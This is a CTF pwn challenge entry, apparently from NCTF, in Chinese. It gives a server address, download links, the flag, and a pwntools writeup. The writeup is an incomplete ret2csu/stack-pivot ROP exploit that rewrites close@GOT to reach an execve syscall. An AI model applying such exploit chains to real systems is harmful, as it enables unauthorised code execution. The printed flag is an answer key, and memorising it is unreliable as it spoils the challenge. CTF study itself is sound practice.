 出题人ID: 影二つ

题目描述:

```
Welcome, it's ez
nc 129.211.173.64 10005
```

附件链接:

```
http://download.kagehutatsu.com/Download/login.zip
https://attachment.h4ck.fun:9000/pwn/login/login.zip
https://nctf.slight-wind.com/pwn/login/login.zip
```

flag:

```
flag{c6f79b51a8c6ebd398d3e7d67afaa29b}
```

writeup:

```python
from pwn import*
#r=remote("129.211.173.64",10005)
r=process('./main')
context.log_level='debug'

libc=ELF("./libc-2.31.so")

main=0x40119a
csu1=0x40128A
csu2=0x401270
leave=0x40121f
gadget=0x4011ed
read_got=0x404030
close_got=0x404028
fake_stack=0x404090

r.recvline()

r.send('\x00'*0x100+p64(fake_stack+0x100)+p64(gadget))

payload=''
payload+=p64(csu1)
payload+=p64(0)+p64(1)
payload+=p64(0)
payload+=p64(close_got)
payload+=p64(0x1)
payload+=p64(read_got)
payload+=p64(csu2)
payload+=p64(0)

payload+=p64(0)+p64(1)
payload+=p64(0)
payload+=p64(fake_stack)
payload+=p64(0x3B)
payload+=p64(read_got)
payload+=p64(csu2)
payload+=p64(0)

payload+=p64(0)+p64(1)
payload+=p64(fake_stack)
payload+=p64(0)
payload+=p64(0)
payload+=p64(close_got)
```